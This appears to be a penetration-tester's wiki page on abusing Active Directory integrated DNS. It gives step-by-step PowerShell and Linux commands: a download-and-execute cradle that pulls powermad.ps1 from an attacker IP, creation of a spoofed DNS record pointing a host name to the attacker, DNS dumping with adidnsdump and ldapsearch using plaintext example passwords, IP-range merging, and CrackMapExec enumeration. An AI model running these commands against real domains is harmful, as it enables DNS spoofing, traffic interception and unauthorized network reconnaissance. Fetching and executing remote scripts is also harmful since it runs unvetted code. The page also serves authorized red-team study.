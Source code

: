 ```yaml
---
description: Active Directory integrated DNS
---
```


# ADIDNS Abuse

* [https://blog.netspi.com/exploiting-adidns/](https://blog.netspi.com/exploiting-adidns/)
* [https://blog.netspi.com/adidns-revisited/](https://blog.netspi.com/adidns-revisited/)
* [https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/](https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/)

0\. Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
```

1\. Check if you are able to modify (add) AD DNS names:

```
PS > Get-ADIDNSZone -Credential $cred -Verbose
DC=megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=_msdcs.megacorp.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,CN=System,DC=megacorp,DC=local

PS > Get-ADIDNSPermission -Credential $cred -Verbose | ? {$_.Principal -eq 'NT AUTHORITY\Authenticated Users'}
Principal             : NT AUTHORITY\Authenticated Users
IdentityReference     : S-1-5-11
ActiveDirectoryRights : CreateChild
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

This `CreateChild` permission is what we need.

2\. Create, configure the new DNS name that could be likely exploited for spoofing with Attacker's IP and enable it. I chose `pc01` which was found in DNS cache:

```
PS > New-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
PS > $dnsRecord = New-DNSRecordArray -Type A -Data 10.10.13.37
PS > Set-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Value $dnsRecord -Credential $cred -Verbose
PS > Enable-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```

3\. Check the newly created DNS object and try to resolve it. AD will need some time (\~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol:

```
PS > Get-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Credential $cred -Verbose
PS > Resolve-DNSName pc01
PS > cmd /c ping -n 1 pc01
```

4\. Cleanup:

```
PS > Remove-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```




## adidnsdump

* [https://github.com/dirkjanm/adidnsdump](https://github.com/dirkjanm/adidnsdump)

```
$ adidnsdump -u 'megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.megacorp.local -r [--dcfilter]
$ mv records.csv ~/ws/enum/adidns.csv
```

Check with ldapsearch:

```
$ ldapsearch -H ldap://10.10.13.37:389 -x -D 'CN=snovvcrash,CN=Users,DC=megacorp,DC=local' -w 'Passw0rd!' -s sub -b 'DC=megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local' '(objectClass=*)' dnsRecord dNSTombstoned name
```

If you need to dump a child domain ADIDNS (say `child.megacorp.local`), then you may want to use `--zone` and `--forest` options:

```
# Will dump records from DC=megacorp.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=megacorp,DC=local
$ adidnsdump -u 'child.megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.child.megacorp.local --zone megacorp.local --forest -r

# Will attempt to dump records from DC=child.megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=child,DC=megacorp,DC=local (and may fail)
$ adidnsdump -u 'child.megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.child.megacorp.local -r
```

Merge all the IPs into `/24` CIDRs with a Python script:

{% code title="cidr_merge.py" %}
```python
#!/usr/bin/env python3

"""
Merge standalone IPs into CIDRs.

Example:
$ cat ~/ws/enum/adidns.csv | awk -F, '{print $3}' > ip.lst
$ cidr_merge.py | sort -u -t'.' -k1,1n -k2,2n -k3,3n -k4,4n | grep -e '^192' -e '^172' -e '^10'
"""

import netaddr

iplst = []
with open('ip.lst', 'r') as fd:
	for line in fd:
		ip = line.rstrip('\n')
		try:
			iplst.append(netaddr.IPNetwork(f'{ip}/24'))
		except netaddr.core.AddrFormatError:
			pass

for net in netaddr.cidr_merge(iplst):
	print(str(net))
```
{% endcode %}

Or using [mapcidr](https://github.com/projectdiscovery/mapcidr):

```
$ eget -qs linux/amd64 "projectdiscovery/mapcidr" --to mapcidr
$ cat ~/ws/enum/adidns.csv | awk -F, '{print $3}' | egrep '^[0-9]' | ./mapcidr -aa -silent | ./mapcidr -s -silent

$ cme ldap 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -M get-network -o ALL=true
```




## DnsServer

Dump ADIDNS using PowerShell and `DnsServer` module:

```
PS > Import-Module DnsServer
PS > Get-DnsServerZone -ComputerName DC01 | % {Get-DnsServerResourceRecord -ComputerName DC01 -ZoneName $_.ZoneName -RRType A} | ft -Wrap -AutoSize | tee adidns.txt
```
